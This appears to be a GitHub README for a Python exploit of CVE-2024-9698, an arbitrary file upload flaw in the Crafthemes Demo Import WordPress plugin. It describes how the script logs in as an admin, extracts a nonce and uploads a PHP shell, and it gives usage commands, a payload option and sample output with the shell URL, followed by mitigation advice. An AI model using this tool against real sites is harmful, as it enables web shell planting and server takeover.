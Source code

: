 # CVE-2024-9698

# Crafthemes Demo Import <= 3.3 - Arbitrary File Upload Exploit

## 📌 Overview
This exploit targets a critical vulnerability (**CVE-2024-9698**) in the **Crafthemes Demo Import** plugin for WordPress. The vulnerability allows authenticated administrators to **upload arbitrary files** to the affected WordPress site, leading to potential **remote code execution (RCE)**.

## 🔍 Vulnerability Details
- **Plugin:** Crafthemes Demo Import
- **Affected Versions:** ≤ 3.3
- **CVE ID:** CVE-2024-9698
- **Severity:** High (CVSS Score: 7.2)
- **Vulnerable Function:** `process_uploaded_files`
- **Issue:** The plugin **lacks proper file type validation**, allowing administrators to upload **malicious PHP files** to the server.
- **Potential Impact:** Attackers can gain full control over the website by executing arbitrary commands.

## 🎯 Exploitation
### ✅ Prerequisites
- **WordPress Administrator** credentials are required to exploit this vulnerability.


### 🚀 How It Works
1. **Check Vulnerability:** The script first **checks the plugin version** by extracting information from `readme.txt`.
2. **Login to WordPress:** Authenticates as an admin and retrieves session cookies.
3. **Extract Nonce Token:** Parses the nonce token required for AJAX requests.
4. **Upload Malicious File:** Uses `admin-ajax.php` to upload a **custom PHP shell**.
5. **Verify Upload:** Confirms successful upload and prints the shell's URL.

### 🛠️ Usage
```bash
python CVE-2024-9698.py --url "http://target.com/wordpress" --username "admin" --password "password"
```

#### 📝 Custom Payload
If you want to upload a **custom PHP payload**, use:
```bash
python CVE-2024-9698.py --url "http://target.com/wordpress" --username "admin" --password "password" --payload "<?php phpinfo(); ?>"
```

### 🔥 Example Output
```bash
[+] Target is vulnerable, proceeding with exploit...
[+] Logged in successfully.
[+] Extracted nonce: abc123xyz
[+] Shell uploaded successfully: http://target.com/wp-content/uploads/2025/02/Nxploit.php
```

## 🛡️ Mitigation
- **Update the plugin** to a patched version if available.
- Restrict admin access to trusted users.
- Monitor and audit uploaded files.

---
**Disclaimer:** This script is intended for educational and security research purposes **only**. Unauthorized use against systems without explicit permission is **illegal**.
